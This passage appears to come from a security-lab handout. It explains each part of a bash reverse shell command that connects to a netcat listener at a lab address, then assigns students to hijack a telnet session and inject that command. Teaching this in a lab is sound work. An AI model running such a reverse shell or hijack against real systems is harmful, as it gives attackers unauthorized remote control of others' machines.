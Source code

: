 \begin{itemize}
\item \texttt{"/bin/bash -i"}: \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt)

\item \texttt{"> /dev/tcp/10.9.0.1/9090"}: This causes the output (\texttt{stdout}) of the shell
  to be redirected to the tcp connection to \texttt{10.9.0.1}'s port \texttt{9090}.
  The output \texttt{stdout} is represented by file descriptor number~1.

\item \texttt{"0<\&1"}: File descriptor 0 represents the standard input (\texttt{stdin}). This causes
  the  \texttt{stdin} for the shell to be obtained from the tcp connection.

\item \texttt{"2>\&1"}: File descriptor 2 represents standard error \texttt{stderr}. This
  causes the error output to be redirected to the tcp connection.
\end{itemize}

In summary, \texttt{"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell, with its input coming from a tcp connection, and its standard
and error outputs being
redirected to the same tcp connection. 

In the demo shown above, when the \texttt{bash}
shell command is executed on \texttt{10.9.0.5}, it connects back to the \texttt{netcat} process
started on \texttt{10.9.0.1}. This is confirmed via the \texttt{"Connection received on 10.9.0.5"}
message displayed by \texttt{netcat}.


The description above shows how you can set up a reverse shell if you have
the access to the target machine, which is the \texttt{telnet} server in
our setup, but in this task, you do not have such an access. Your task is 
to launch an TCP session hijacking attack on an existing \texttt{telnet}
session between a user and the target server. You need to inject your
malicious command into the hijacked session, so you can get a reverse
shell on the target server. 




\section{Submission}



\section*{Acknowledgment}

I would like to thank CSender (GitHub ID), Eric Dong, and Chao Gong,
for their suggestions on improving the SYN flooding attack
task in this lab. 



